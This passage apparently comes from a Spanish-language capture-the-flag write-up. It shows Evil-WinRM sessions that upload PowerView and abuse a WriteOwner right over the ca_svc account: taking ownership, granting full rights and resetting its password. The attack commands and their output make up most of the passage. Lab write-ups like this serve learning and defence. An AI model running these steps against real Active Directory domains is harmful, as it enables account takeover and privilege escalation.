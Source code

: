![writeowner.png](Images/writeowner.png)

Subo el modulo de `powerview.ps1` con `evil-wirm` como el usuario ryan:

```
*Evil-WinRM* PS C:\Users\ryan\Documents> upload /home/cangrejo/Escritorio/escapetwo/content/PowerView.ps1
                                        
Info: Uploading /home/cangrejo/Escritorio/escapetwo/content/PowerView.ps1 to C:\Users\ryan\Documents\PowerView.ps1
                                        
Data: 1027036 bytes of 1027036 bytes copied
                                        
Info: Upload successful!
*Evil-WinRM* PS C:\Users\ryan\Documents> ls


    Directory: C:\Users\ryan\Documents


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----         7/1/2025   1:27 PM         770279 PowerView.ps1
```

Cambio el `owner` a ryan y cambio la contraseña del usuario ca_svc a cangrejo123:

```
*Evil-WinRM* PS C:\Users\ryan\Documents> Import-Module .\PowerView.ps1
*Evil-WinRM* PS C:\Users\ryan\Documents> Set-DomainObjectOwner  -Identity ca_svc -OwnerIdentity ryan
*Evil-WinRM* PS C:\Users\ryan\Documents> Add-DomainObjectAcl -TargetIdentity ca_svc -Rights All -PrincipalIdentity ryan
*Evil-WinRM* PS C:\Users\ryan\Documents> $UserPassword = ConvertTo-SecureString 'cangrejo123' -AsPlainText -Force
*Evil-WinRM* PS C:\Users\ryan\Documents> Set-DomainUserPassword -Identity ca_svc -AccountPassword $UserPassword
*Evil-WinRM* PS C:\Users\ryan\Documents>
```
